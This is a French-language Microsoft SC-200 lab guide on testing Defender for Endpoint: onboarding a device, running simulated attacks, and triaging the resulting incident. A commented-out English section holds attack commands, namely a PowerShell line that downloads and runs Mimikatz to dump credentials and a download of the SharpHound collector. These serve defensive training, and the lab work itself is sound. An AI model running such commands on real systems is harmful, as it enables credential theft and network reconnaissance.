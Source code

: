 ```yaml
---
lab:
  title: "Exercice 2\_-\_Atténuer les attaques avec Micrsoft Defender for Endpoint"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Parcours d'apprentissage 2 - Labo 1 - Exercice 2 - Atténuer les attaques avec Microsoft Defender for Endpoint

## Scénario du labo

![Vue d’ensemble du labo](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Vous êtes un analyste des opérations de sécurité travaillant dans une entreprise qui implémente Microsoft Defender pour point de terminaison. Votre responsable prévoit d’intégrer quelques appareils afin de fournir des informations sur les modifications requises des procédures de réponse de l’équipe chargée des opérations de sécurité.

Pour explorer les fonctionnalités d’atténuation des attaques Defender for Endpoint, vous allez exécuter deux attaques simulées.

>**Remarque :** Une **[simulation de labo interactive](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** est disponible et vous permet de progresser à votre propre rythme. Il peut exister de légères différences entre la simulation interactive et le labo hébergé. Toutefois, les concepts et idées de base présentés sont identiques.


### Tâche 1 : Vérifier l’intégration de l’appareil

Dans cette tâche, vous allez confirmer que l’appareil a été intégré avec succès et créer une alerte de test.

1. Si vous n’êtes pas encore sur le portail Microsoft Defender XDR dans votre navigateur Microsoft Edge, accédez à https://security.microsoft.com) et connectez-vous en tant qu’administrateur pour votre tenant.

1. Dans le menu de gauche, sous la zone **Ressources** , sélectionnez **Appareils**. Veuillez patienter jusqu’à ce que WIN1 apparaisse sur la page Appareils avant de continuer. Sinon, vous devrez peut-être répéter cette tâche pour voir les alertes qui seront générées ultérieurement.

    >**Remarque :** si vous avez terminé le processus d’intégration et que vous ne voyez pas d’appareils sur la liste Appareils au bout d’une heure, cela peut indiquer un problème d’intégration ou de connectivité.

1. Sélectionnez **Paramètres** dans la barre de menus de gauche, puis, sur la page Paramètres, choisissez **Points de terminaison**.

1. Sélectionnez **Intégration** dans la section Gestion des appareils, puis vérifiez si *« Windows 10 et Windows 111 »* est sélectionné comme système d’exploitation. Le message *« Premier appareil intégré »* affiche désormais *Terminé*.

1. Faites défiler la page vers le bas puis, sous la section *« 2. Exécuter un test de détection »,* puis copiez le script de test de détection en sélectionnant le bouton **Copier**.  

1. Dans la barre de recherche Windows de la machine virtuelle WIN1, tapez **CMD** et choisissez **Exécuter en tant qu’administrateur** dans le volet droit de l’application Invite de commandes. 

1. Lorsque la fenêtre « Contrôle de compte d’utilisateur » apparaît, sélectionnez **Oui** pour autoriser l’exécution de l’application. 

1. Collez le script en cliquant avec le bouton droit dans les fenêtres d’invite **Administrateur : Invite de commande**, ppuis appuyez sur **Entrée** pour l’exécuter.

    >**Remarque :** la fenêtre se ferme automatiquement après l’exécution du script.

### Tâche 2 : Attaques simulées

>**Remarque :** Le labo d’évaluation et la section Tutoriels et simulations du portail ne sont plus disponibles. Les étapes suivantes sont fournies à titre de référence uniquement. Reportez-vous au **[simulation de labo interactive](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** pour une démonstration des attaques simulées. Nous œuvrons pour trouver un remplacement aux attaques simulées.

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. Dans le menu de gauche, sous **Points de terminaison**, sélectionnez **Évaluation et tutoriels** , puis **Tutoriels et simulations** à gauche.

1. Sélectionnez l’onglet **Tutoriels**.

1. Sous *Investigation automatisée (porte dérobée)* ,un message décrivant le scénario s‘affiche. Sous ce paragraphe, cliquez sur **Lire la procédure pas à pas**. Un nouvel onglet de navigateur apparaît. Il content des instructions pour effectuer la simulation.

1. Dans le nouvel onglet du navigateur, recherchez la section intitulée **Exécuter la simulation** (page 5, à partir de l’étape 2) et suivez les étapes pour mener l’attaque. **Conseil :** le fichier de simulation *RS4_WinATP-Intro-Invoice.docm* figure sur le portail, juste sous la **procédure pas à pas** que vous avez sélectionnée à l’étape précédente en choisissant le bouton **Obtenir le fichier de simulation**.

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tâche  3 : Examiner les attaques

1. Dans le portail Microsoft Defender XDR, sélectionnez **Incidents et alertes** dans le menu de gauche, puis **Incidents**.

1. Un nouvel incident appelé « Plusieurs familles de menaces ont été détectées sur un point de terminaison » se trouve dans le volet droit. Sélectionnez le nom de l’incident pour charger ses informations.

    >**Remarque :** Vous devez voir les alertes *Bloodhound* et Mimikatz* dans le volet **Alertes**. Dans **Ressources/Appareils**, l’ordinateur *win1* a désormais un **Niveau de risque** *Élevé*.

1. Sélectionnez le bouton **Gérer l'incident** .Un nouveau panneau de fenêtre s’affiche. 

1. Sous **Balises d’incident**, tapez « Simulation », puis sélectionnez **Simulation (Créer)** pour créer une balise. 

1. Sélectionnez le bouton bascule **Attribuer à** et ajoutez votre compte d’utilisateur (Moi) en tant que propriétaire de l’incident. 

1. Sous **Classification**, développez le menu déroulant. 

1. Sous **Informational, activité  attendue**, sélectionnez **Test de sécurité**. 

1. Ajoutez des commentaires si vous le souhaitez, puis sélectionnez **Enregistrer** pour mettre à jour l’incident et quitter la page.

1. Passez en revue le contenu des onglets  *Histoire d’attaque, Alertes, Ressources, Investigations, Preuve et réponse* et *Résumé*. Les appareils et les utilisateurs sont répertoriés sous l’onglet *Ressources* . L’onglet *Histoire d’attaque* affiche le *graphique Incident*. Conseil ** :** certains onglets peuvent être masqués en raison de la taille de votre écran. Sélectionnez l’onglet représentant des points de suspension (...) pour les afficher.

    >**Avertissement :** Les attaques simulées ici constituent une excellente source d’apprentissage via la pratique. Effectuez uniquement les attaques dans les instructions fournies pour ce labo lors de l’utilisation du cours fourni au tenant Azure.  Vous pouvez effectuer d’autres attaques simulées *après* avoir effectué ce cours de formation avec ce tenant.

## Vous avez terminé le labo.
